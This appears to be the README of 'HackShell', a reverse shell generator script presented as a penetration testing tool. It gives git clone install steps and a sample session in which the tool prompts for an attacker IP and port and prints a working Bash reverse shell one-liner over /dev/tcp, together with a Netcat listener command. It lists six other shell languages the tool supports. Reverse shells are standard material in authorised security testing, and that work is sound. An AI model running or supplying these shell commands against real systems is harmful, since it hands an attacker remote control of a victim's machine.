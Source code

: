 # HcakShell
HackShell is a powerful reverse shell generator for penetration testing, offering customizable shells for multiple platforms (Bash, Python, PowerShell, etc.). It includes extra tools for discovering hidden info like IPs, emails, and domains, making it ideal for streamlined security testing.

## Install 
- From Github :
  ``` 
  git clone https://github.com/HckN1L/HackShell  
  cd HackShell   
  ```  
## Usage
```
$ cd HackShell
$ chmod +x HackShell.sh
$ ./HackShell.sh

 _   _            _     ____  _          _ _ 
| | | | __ _  ___| | __/ ___|| |__   ___| | |
| |_| |/ _` |/ __| |/ /\___ \| '_ \ / _ \ | |
|  _  | (_| | (__|   <  ___) | | | |  __/ | |
|_| |_|\__,_|\___|_|\_\|____/|_| |_|\___|_|_|

==============================================================
https://x.com/HckN1L
https://github.com/HckN1L
https://www.linkedin.com/in/indranil-sen-a1888a256
==============================================================
$ Enter the IP address: 10.10.10.10 
$ Enter the port number: 1234

[+] Reverse Shell Options:
1. Bash
2. Python
3. Perl
4. PHP
5. Netcat (nc)
6. Ruby
7. PowerShell

Choose shell type [1-7]: 1

[+] Bash Reverse Shell:

bash -i >& /dev/tcp/10.10.10.10/1234 0>&1

[+] Netcat Listener: nc -lvnp 1234
```
